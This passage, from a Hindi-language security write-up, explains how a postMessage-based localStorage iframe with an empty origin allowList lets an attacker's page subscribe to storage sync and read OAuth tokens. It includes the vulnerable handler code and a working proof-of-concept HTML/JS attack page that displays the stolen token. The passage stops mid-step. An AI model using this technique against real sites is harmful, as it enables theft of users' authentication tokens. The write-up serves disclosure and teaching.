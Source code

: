 ```javascript
// If there's an allowList, check if origin is there, else deny
if (allowList && allowList.indexOf(e.origin) == -1) {
return;
}
// Only parent can talk to it
if (e.source !== window.parent) {
return;
}
handleMessage(e);
});

function handleMessage(e) {
if (data.type === 'sync') {
syncListeners.push({source: e.source, origin: e.origin})
} else {
...
}

window.addEventListener('storage', function(e) {
for(var i = 0; i < syncListeners.length; i++) {
syncListeners[i].source.postMessage(JSON.stringify({type: 'sync', key: e.key, value: e.newValue}), syncListeners[i].origin);
}
}
```
इसके अलावा, यदि आपके पास `allowList` पर आधारित एक मान्य मूल था, तो आप सिंक के लिए भी पूछ सकते थे, जिससे आपको इस विंडो में localStorage में किए गए किसी भी बदलाव को भेज दिया जाता है जब वे किए जाते थे।

### हमला

इस स्टोरेज को लोड करने वाली वेबसाइट पर OAuth-डांस के गैर-हैप्पी पथ पर कोई allowList-मूल निर्धारित नहीं थे; **यह किसी भी मूल के साथ बातचीत करने की अनुमति देता था यदि मूल विंडो का मूल है**:

1.  मैंने एक दुष्ट पेज बनाया जिसने स्टोरेज कंटेनर का एक iframe एम्बेड किया और जब इस iframe को लोड किया जाता है तो एक onload जोड़ा।

```html
<div id="leak"><iframe
id="i" name="i"
src="https://cdn.customer12345.analytics.example.com/storage.html"
onload="run()"></iframe></div>
```
2.  क्योंकि दुष्ट पेज अब iframe का मूल हो गया था, और `allowList` में कोई मूल निर्धारित नहीं थे, दुष्ट पेज स्टोरेज को संदेश भेज सकता था ताकि संग्रह को संग्रह के लिए संदेश भेजें। मैं दुष्ट पेज में एक सुनने वाले को भी जोड़ सकता था जो संग्रह से किसी भी सिंक-अपडेट के लिए सुन सकता था:

```html
<script>
function run() {
i.postMessage({type:'sync'}, '*')
}
window.addEventListener('message', function (e) {
if (e.data && e.data.type === 'sync') {
document.getElementById('leak').innerText = 'हमने टोकन चुरा लिया है: ' + JSON.stringify(e.data);
}
});
</script>
```
3.  दुष्ट पेज में पीड़ित के लिए एक सामान्य लिंक भी होगा:
